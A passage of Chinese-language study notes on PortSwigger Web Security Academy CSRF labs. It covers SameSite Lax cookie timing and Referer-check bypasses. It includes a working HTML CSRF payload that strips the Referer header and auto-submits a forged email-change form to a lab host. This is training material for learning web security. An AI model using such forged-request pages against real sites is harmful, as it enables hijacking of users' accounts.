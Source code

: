 這題的 solution 算很基礎，但 bypass 技巧很巧妙，利用網站 "登入後會刷新 cookie.session" 的邏輯，加上瀏覽器 `SameSite: Lax` 的 cookie 會在 2 分鐘後才生效的規範

但如果網站有 "跟 session 綁定在一起的 CSRF Token" 放在 `<input hidden/>`，就可以防禦住這個攻擊手法

## Lab: CSRF where Referer validation depends on header being present

| Dimension | Description                                                                                                                       |
| --------- | --------------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses#validation-of-referer-depends-on-header-being-present  |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-depends-on-header-being-present |

新的工具包：`<meta name="referrer" content="never">`，之前有寫過 [Origin And Referer](../http/origin-and-referer.md) 的文章，但沒看過這用法！

在 exploit-server 的 response body 設定以下 html

```html
<html>
  <head>
    <meta name="referrer" content="never" />
  </head>
  <body>
    <form
      class="login-form"
      name="change-email-form"
      action="https://0a8b00a40328b0f184f5145b007000c9.web-security-academy.net/my-account/change-email"
      method="POST"
    >
      <input
        required=""
        type="email"
        name="email"
        value="wiener3@normal-user.net"
      />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

這題的 solution 算基礎，秒解，但有學到新的工具包～

## Lab: CSRF with broken Referer validation

| Dimension | Description                                                                                                          |
| --------- | -------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses#validation-of-referer-can-be-circumvented |
| Lab       | https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken             |
